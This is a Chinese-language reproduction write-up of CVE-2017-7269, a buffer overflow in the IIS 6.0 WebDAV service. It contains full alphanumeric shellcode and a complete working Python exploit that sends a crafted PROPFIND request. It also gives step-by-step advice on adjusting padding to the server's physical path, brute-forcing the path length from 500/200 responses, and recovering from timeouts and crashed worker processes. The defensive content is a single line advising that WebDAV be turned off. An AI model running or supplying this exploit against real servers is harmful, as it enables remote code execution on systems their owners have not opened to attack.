









## CVE-2017-7269

Microsoft Windows Server 2003 R2中的Internet信息服务（IIS）6.0中的WebDAV服务中的ScStoragePathFromUrl函数中的缓冲区溢出允许远程攻击者通过以"If：<http：//"开头的长标头执行任意代码PROPFIND请求。

影响范围：
在Windows 2003 R2（Microsoft(R) Windows(R) Server 2003, Enterprise Edition Service Pack 2）上使用IIS 6.0并开启WebDAV扩展。


复现：

CVE作者给出的[exp](https://github.com/edwardz246003/IIS_exploit/blob/master/exploit.py) 计算机弹弹弹！！！
用python2 运行，结果如下。

任务管理器开启了calc.exe进程，因为计算器是网络服务权限打开的，所以我们在桌面上看不见。

这个漏洞有几个需要注意的地方，如下。

由于作者提供的Exp执行之后就卡在那里了，因此不适合用弹计算机的shellcode进行测试，网上找了个dalao的回显shellcode来测试。

首先将上图中python2 IDE运行时产生的Raw类型的HTTP数据包copy保存至记事本中，然后在Burp Repeater模块 Paste from file。

将shellcode更换成如下：
```
VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A
```
结果：


CVE作者给出的Exp是在默认端口，默认域名，默认路径的情况下适用。

第一个需要注意的是端口和域名绑定问题：

当端口改变时，If头信息中的两个url端口要与站点端口一致，如下。


当域名改变时，If头信息中的两个url域名要与站点域名一致，且HOST头也要与站点域名一致。如下


不修改Host将返回502,如下


Note:
```
测试的时候凡是需要修改IIS配置的操作，修改完毕后都需要重启IIS，
或者在不超过禁用阈值的前提下结束w3wp进程。
```

第二个需要注意的是物理路径问题：

CVE作者提供的Exp是在 默认路径长度等于19(包括结尾的反斜杠)的情况下适用，IIS默认路径一般为：`c:\inetpub\wwwroot`

解决方法：

当路径长度小于19时需要对padding进行添加。
当路径长度大于19时需要对padding进行删除。

ROP和stackpivot前面的padding实际上为UTF8编码的字符，每三个字节解码后变为两个字节的UTF16字符，在保证Exp不出错的情况下，有0x58个字符是没用的。所以可以将前0x108个字节删除，换成0x58个a或b。

原exp 修改后如下：
``` python
# coding:utf-8
import socket  
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
sock.connect(('192.168.124.129',8888))  
pay='PROPFIND / HTTP/1.1\r\nHost: www.lxhsec.com\r\nContent-Length: 0\r\n'
pay+='If: <http://www.lxhsec.com:8888/aaaaaaa'
pay+='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
pay+='\xe6\xa9\xb7\xe4\x85\x84\xe3\x8c\xb4\xe6\x91\xb6\xe4\xb5\x86\xe5\x99\x94\xe4\x9d\xac\xe6\x95\x83\xe7\x98\xb2\xe7\x89\xb8\xe5\x9d\xa9\xe4\x8c\xb8\xe6\x89\xb2\xe5\xa8\xb0\xe5\xa4\xb8\xe5\x91\x88\xc8\x82\xc8\x82\xe1\x8b\x80\xe6\xa0\x83\xe6\xb1\x84\xe5\x89\x96\xe4\xac\xb7\xe6\xb1\xad\xe4\xbd\x98\xe5\xa1\x9a\xe7\xa5\x90\xe4\xa5\xaa\xe5\xa1\x8f\xe4\xa9\x92\xe4\x85\x90\xe6\x99\x8d\xe1\x8f\x80\xe6\xa0\x83\xe4\xa0\xb4\xe6\x94\xb1\xe6\xbd\x83\xe6\xb9\xa6\xe7\x91\x81\xe4\x8d\xac\xe1\x8f\x80\xe6\xa0\x83\xe5\x8d\x83\xe6\xa9\x81\xe7\x81\x92\xe3\x8c\xb0\xe5\xa1\xa6\xe4\x89\x8c\xe7\x81\x8b\xe6\x8d\x86\xe5\x85\xb3\xe7\xa5\x81\xe7\xa9\x90\xe4\xa9\xac'
pay+='>'
pay+=' (Not <locktoken:write1>) <http://www.lxhsec.com:8888/bbbbbbb'
pay+='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb'
pay+='\xe5\xa9\x96\xe6\x89\x81\xe6\xb9\xb2\xe6\x98\xb1\xe5\xa5\x99\xe5\x90\xb3\xe3\x85\x82\xe5\xa1\xa5\xe5\xa5\x81\xe7\x85\x90\xe3\x80\xb6\xe5\x9d\xb7\xe4\x91\x97\xe5\x8d\xa1\xe1\x8f\x80\xe6\xa0\x83\xe6\xb9\x8f\xe6\xa0\x80\xe6\xb9\x8f\xe6\xa0\x80\xe4\x89\x87\xe7\x99\xaa\xe1\x8f\x80\xe6\xa0\x83\xe4\x89\x97\xe4\xbd\xb4\xe5\xa5\x87\xe5\x88\xb4\xe4\xad\xa6\xe4\xad\x82\xe7\x91\xa4\xe7\xa1\xaf\xe6\x82\x82\xe6\xa0\x81\xe5\x84\xb5\xe7\x89\xba\xe7\x91\xba\xe4\xb5\x87\xe4\x91\x99\xe5\x9d\x97\xeb\x84\x93\xe6\xa0\x80\xe3\x85\xb6\xe6\xb9\xaf\xe2\x93\xa3\xe6\xa0\x81\xe1\x91\xa0\xe6\xa0\x83\xcc\x80\xe7\xbf\xbe\xef\xbf\xbf\xef\xbf\xbf\xe1\x8f\x80\xe6\xa0\x83\xd1\xae\xe6\xa0\x83\xe7\x85\xae\xe7\x91\xb0\xe1\x90\xb4\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81\xe9\x8e\x91\xe6\xa0\x80\xe3\xa4\xb1\xe6\x99\xae\xe4\xa5\x95\xe3\x81\x92\xe5\x91\xab\xe7\x99\xab\xe7\x89\x8a\xe7\xa5\xa1\xe1\x90\x9c\xe6\xa0\x83\xe6\xb8\x85\xe6\xa0\x80\xe7\x9c\xb2\xe7\xa5\xa8\xe4\xb5\xa9\xe3\x99\xac\xe4\x91\xa8\xe4\xb5\xb0\xe8\x89\x86\xe6\xa0\x80\xe4\xa1\xb7\xe3\x89\x93\xe1\xb6\xaa\xe6\xa0\x82\xe6\xbd\xaa\xe4\x8c\xb5\xe1\x8f\xb8\xe6\xa0\x83\xe2\xa7\xa7\xe6\xa0\x81'
shellcode='VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJIOPKSKPKPTKLITKKQDKU0G0KPKPM00QQXI8KPM0M0K8KPKPKPM0QNTKKNU397O00WRJKPSSI7KQR72JPXKOXPP3GP0PPP36VXLKM1VZM0LCKNSOKON2KPOSRORN3D35RND4NMPTD9RP2ENZMPT4352XCDNOS8BTBMBLLMKZOSROBN441URNT4NMPL2ERNS7SDBHOJMPNQ03LMLJPXNM1J13OWNMOS2H352CBKOJO0PCQFOUNMOB00NQNWNMP7OBP6OILMKZLMKZ130V15NMP2P0NQP7NMNWOBNV09KPM0A'
pay+=shellcode
pay+='>\r\n\r\n'
print pay
sock.send(pay)  
data = sock.recv(80960)  
print data 
sock.close
```
执行：


当路径长度小于19时，如下，需要增加12个a，b




而实际中路径常常大于19，需要对padding进行删除。

当路径为`c:\www\`的时候，a有107个，加起来有114个，除去盘符有111个字符，所以可以把Exp的padding增加至111，并逐次进行减少。当长度不匹配时返回500，成功时返回200，通过爆破方式得到物理路径长度。

成功:



失败:



当然如果能得到物理路径，则用114减去物理路径长度（包括末尾的反斜杠）就是所需的padding长度。


第三个需要注意的是，超时问题。

当exp执行成功一段时间之后（大概十分钟到二十分钟左右，其间无论有无访问），再对这个站点执行exp永远不会成功，同时返回400。

解决方法：

1.等待w3wp重启。

2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）


第四个需要注意的是，多次执行错误shellcode

多次执行错误的shellcode会覆盖很多不该覆盖的代码，从而导致正确的shellcode执行时也返回500，
提示信息为：参数不正确，也可能什么都不返回。



解决方法：

1.等待w3wp重启。

2.测试旁站（因为每个池都是独立的w3wp进程，换一个可能在其他池的旁站进行尝试）

### 修复建议
关闭 WebDAV